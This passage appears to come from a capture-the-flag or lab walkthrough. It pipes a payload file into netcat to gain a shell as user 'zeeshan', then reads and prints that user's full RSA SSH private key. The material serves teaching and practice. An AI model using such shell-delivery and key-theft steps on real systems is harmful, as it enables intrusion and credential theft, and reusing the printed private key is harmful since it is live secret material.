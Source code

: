 ```
(cat /tmp/payload.p; cat) | nc 172.17.0.1 4444
```

![Pasted image 20250328182223.png](../../IMAGES/Pasted%20image%2020250328182223.png)

We got a shell as `zeeshan`, let's try reading his home folder to check if there's a private key for ssh:


![Pasted image 20250328182321.png](../../IMAGES/Pasted%20image%2020250328182321.png)

There we go, let's get it:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAxuNhK456dD+WXwoMLkfzQPvBsbnN27Aq8NfCVp4625XyoXi+
i2g2nYNOarOGX+/q/M0UmoObiaJOPLLig9oFm8ZPxHtmVgOTX2Go1pDWotEHZHL3
GdQ+W8lkg+h/X2C5WwlqUjcQxBuPsMgvZB4W714u5FpFOhiKtMwh20VX8AcwptJ8
ET4m79e+lChbPJqsQZcmtKkjzWhlIimfZWhYHca7DtljYpQf4+uVIle6diy5xot7
lxNniPc9v1y1YFSHYrFfFYmlnniWnBrVhXBw0sydJTnISxvI1p7pw4vMZX441oHb
FNsC+oCtW36HPEprpySilvIzdv1d8N56cW6BZQIDAQABAoIBAQCnb6NNbPxwQ1wP
lMDecZo7Wfcd7UN+MJhl++5Sx5Dbbig+gg1ABbL89h8dOxfkSnG0893lmuhlfWuK
NDr4L6LLGq/qxMxJm2cFRI1EXdkkZv9nNFYMu57n3OsvFZutqxtApfOJVWxa/K0C
cfVbvu0mBU9K1Sg0mZakULosA/vdSGQGXdyS1UmDNSLbfnffyccdk+TiB0mnKpp5
JfE3yML08AJYruEG7ZoNMM170RFtE40al1aox7X9fxe434+sTlBHWXNf+FkHTO8O
gQRQZKEDA2mMpUflMDRSyRjmoZfap7i9LCea4U7jlUeFH13ex3Sgbj6zOeIKMpCq
XBUKaSmhAoGBAOut6/PntcLUJns9oF1I6a4+343Au+Trx3UGeQCXOwIb1WhAXBH4
OvKZEK0qb76MANTU3VdqLXXLwharMd/AyXYX0cXObVQ7FWWF318+3JgVU7q65yx1
11+ZCIaRJfJDEjvbroEvD9xbPcDj3naYaJyqc2mV9OPov8cqAe8PZ+dZAoGBANgJ
YKRJUSyNP2E5xENkaUvQ+OODN4cwMO0yB4QAbFfSvZiR1vVllbgWlQQciAm7WY4j
ovQGrC6/tBr2ylza7hYFq3mNb1vvvKOZSr8x/FYhvoSpA4vMxDFmGM8Fc/gd3guv
LSPPP5nM1GBbgydL3rY5ZIhwCOQOj2ymqoKQkXTtAoGALFgGHFdNqMHYF7opsUOl
zEZCM96+u7ztQ4SbQdQyoxvvlHT/ndXx6XGJZLumWNjo0yLWHrt4oEBdXXyKnsoc
Xd7vdmN3yLBxPy/oLniacvcYUPsXwhLOGkumAgPPevzJsn+MHvxm5JQ6U0/MrM3S
aR/dJVG0ySki5Gtv/7YLW8kCgYEAhKCtLe684OcOI/g830rDwgHW6oXiDyKsxtHR
/13rJbeBIitWlmz5D3z9mvqRIbhc8IA8SCfYiRKz1WHxNjRJukdc0FDeLsjtPFqd
oudjDNXGitbgEHFzeQg+7slgOtDLQs0Wn0daumcfctB7oiJX5fMyHvj43Fl7/64K
PAHY6rkCgYEAsVk6DjjzRQCAMoyC9H4bwAWMkvYerSkmvIo3efCMyUdKtMjg3cCv
EFmGDkEL3l6/2W3bmF6kbYDOeSyRjAaZp59QUiNliiHneD9VwCVXT/IF70O+kNkf
c7FgDFMEoa44S7BZIhxymHyGN7xgPQ6EJonUuMCfmP83KLRZrkI4FPI=
-----END RSA PRIVATE KEY-----
```
